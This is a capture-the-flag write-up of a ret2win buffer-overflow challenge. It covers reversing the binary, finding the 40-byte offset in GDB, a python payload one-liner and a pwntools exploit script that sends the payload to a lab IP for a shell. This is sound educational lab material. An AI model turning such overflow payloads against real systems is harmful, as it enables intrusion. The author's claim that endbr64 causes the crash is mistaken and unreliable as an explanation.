THM Industrial CTF - PWN : Industrial
Intro
This is the writeup of the 2nd pwn chall of the THM Industrial CTF 2025.

Writeup
IDA
Reversing the binary reveals a possible buffer overflow. The buffer is 32 bytes long, but the read function reads 48 bytes.

By looking at the others functions, I noticed that there is a win function, which is calling a shell. This suggests a ret2win challenge: we need to overwrite the return address of main to redirect execution to win

GDB
After opening the binary with GDB, I start to check what security this binary have, and as expected, NX is enabled.

I start to put some breakpoints in the main function to get the buffer address and the return address.

Now let’s run the binary, the first breakpoint is at the read function, and we can see that it will write our input at the address pointed by $rsi, so 0x00007fffffffdf50.

Now, let’s get the address of the return address, by continuing the execution to the second breakpoint, at the ret instruction. Looking at the stack, we see that $rsp is pointing to 0x00007fffffffdf78, which is the return address of the main function.

So we have 40 bytes between the buffer and the return address. We are going to replace the initial return address of the main function with the address of the win function to get the flag. We search the address of the win function and now we can construct the payload.

Surprisingly, this payload causes a crash. (segfault).
python3 -c "import sys; sys.stdout.buffer.write(b'A'*32 + b'B'*8 + b'\xb6\x11\x40\x00\x00\x00\x00\x00')"
Let’s disassemble the win function to understand what’s happening.

It’s the first time I see the endbr64 instruction. On StackOverflow I see that this function is gonna make faulting every indirect jump on it. So I will just jump one or two instruction later and it should work.

Jumping to win+4 causes crash for the same reason, but I finally got the right payload by jumping directly to the mov instruction (win+5) !

(python3 -c "import sys; sys.stdout.buffer.write(b'A'*32 + b'B'*8 + b'\xbb\x11\x40\x00\x00\x00\x00\x00')"; cat) | ./industrial
Exploit
Now let’s get the flag by making a script with pwninit.
#!/usr/bin/env python3
from pwn import *
exe = ELF("industrial")
context.binary = exe
win_addr = 0x00000000004011bb # The address of win+5
padding = 40
payload = b'A'*padding + p64(win_addr)
def conn():
if args.LOCAL:
r = process([exe.path])
if args.DEBUG:
gdb.attach(r)
else:
r = remote("10.10.135.90", 9001)
return r
def main():
r = conn()
# good luck pwning :)
r.sendline(payload)
r.interactive()
if __name__ == "__main__":
main()

That was one of my first pwn challenges in CTF and I learn a lot of cool things. I hope you enjoyed this WriteUp :p